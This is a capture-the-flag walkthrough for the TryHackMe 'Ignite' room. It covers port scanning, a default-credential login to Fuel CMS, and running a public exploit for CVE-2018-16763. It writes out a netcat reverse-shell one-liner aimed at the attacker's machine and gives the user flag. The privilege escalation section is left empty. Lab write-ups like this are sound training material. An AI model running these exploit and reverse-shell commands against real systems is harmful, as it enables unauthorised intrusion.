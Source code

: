 
# Ignite CTF Walkthrough

Ignite is a vulnerable new start up with issues in their web server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/ignite<br />
THM Difficulty: Easy<br />
My Difficulty: Easy<br />
Target IP: 10.10.105.97<br />
AttackBox IP: 10.10.189.128<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```rustscan -a 10.10.105.97```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flag -sV to find the service versions on the open port.<br />
```nmap -sV -p80 10.10.105.97```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT2.png?raw=true)<br />
We have only found one service, this CTF may just be a webservice. Let's try to find some vulnerabilities!

## HTTP Service Recon

Let's load up our web browser and head over to http://10.10.105.97/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT3.png?raw=true)<br />
Straight away we see the name "Fuel CMS" and a version "Version 1.4". Let's see what else we can find.
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT4.png?raw=true)<br />
Further down the webpage we see the link to an admin page and a default login, let's try logging in!
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT5.png?raw=true)<br />
Success! We've managed to login to the admin panel with the default username and password. Let's check the search engines for Fuel CMS 1.4 to see if we can find any vulnerabilities.<br />

Another hit! We see an exploit-db result that affects Fuel CMS versions 1.41 and below. CVE-2018-16763, remote Code Execution.
Now we have two ways we can go, using the exploit we found or to try upload a reverse shell on the admin panel.<br />

## Exploiting Fuel CMS 1.41
We're going to try the first way... Using the exploit we found! Why not?<br />
First let's download the exploit onto our AttackBox - https://www.exploit-db.com/raw/50477<br />
I downloaded it and named it exploit.py, let's run it and see if we can get a shell! This exploit requires no additional configuration.<br />
python exploit.py<br />
It tells us we need to add the -u flag with the URL! Let's go.<br />
python exploit.py -u http://10.10.105.97<br />
If the exploit was succesful you will be asked to enter a command like I've done below<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT6.png?raw=true)<br />
It looks like the exploit executes PHP system commands, let's get a reverse shell up for more functionality. To do this 
we'll need to firstly open up a listener on our AttackBox, then we will send the PHP system command to spawn a reverse shell to that listener.<br />
On our AttackBox:<br />
nc -lvnp 8888<br />
<br />
On our target with the PHP system commands:<br />
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.189.128 8888 >/tmp/f<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT7.png?raw=true)<br />
Now we have our reverse shell opened! Let's have a look in /home<br />
cd /home<br />
ls<br />
We see another folder www-data, after checking inside the folder we find a flag.txt, this must be our User flag!<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT8.png?raw=true)<br />
After having a look around it looks like we'll need to escalate our privileges to get any further!<br />

## Privilege Escalation



Question 1:<br />
**What is the user flag?** 6470e394cbf6dab6a91682cc8585059b<br />

Question 2:<br />
**What is the root flag?** <br />

### Farewell, I hope you all enjoyed this write-up!

